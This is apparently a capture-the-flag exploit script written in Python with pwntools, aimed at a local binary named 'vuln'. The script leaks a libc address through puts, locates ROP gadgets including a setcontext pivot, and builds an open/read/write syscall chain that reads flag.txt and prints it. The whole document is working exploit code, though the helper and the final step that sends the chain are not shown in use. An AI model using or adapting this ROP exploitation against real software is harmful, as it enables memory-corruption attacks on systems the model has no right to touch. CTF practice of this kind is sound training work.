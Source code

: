 ### Exploit Script

```python
# coding: utf-8
from pwn import *


context.binary = elf = ELF('./vuln')
libc = ELF("./libc-2.23.so")


def rsd(ret, where, write_what):
    p.sendline(ret)
    p.sendline(str(where))
    p.sendline(str(write_what))


p = process('./vuln')

puts = int(p.recvline(), 16)
libc.address = puts - libc.sym.puts

print(f"{libc.address:#x}")

main_inputs = 0x401341

rop = ROP(libc)

# gadgets
pivot = libc.sym.setcontext + 53
pop_rax = rop.find_gadget(["pop rax", "ret"])[0]
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
pop_rsi = rop.find_gadget(["pop rsi", "ret"])[0]
pop_rdx = rop.find_gadget(["pop rdx", "ret"])[0]
syscall = rop.find_gadget(["syscall", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]

############################
#                          #
#        rop chain         #
#                          #
############################

# open flag.txt
chain = p64(pop_rax) + p64(2)
chain += p64(pop_rdi) + p64(0x404900)
chain += p64(pop_rsi) + p64(0)
chain += p64(pop_rdx) + p64(0)
chain += p64(syscall)

# read flag.txt to libc bss
chain += p64(pop_rax) + p64(0)
chain += p64(pop_rdi) + p64(3)
chain += p64(pop_rsi) + p64(libc.bss(42))
chain += p64(pop_rdx) + p64(1000)
chain += p64(syscall)

# write flag.txt to stdout
chain += p64(pop_rax) + p64(1)
chain += p64(pop_rdi) + p64(1)
chain += p64(pop_rsi) + p64(libc.bss(42))
chain += p64(pop_rdx) + p64(1000)
chain += p64(syscall)
```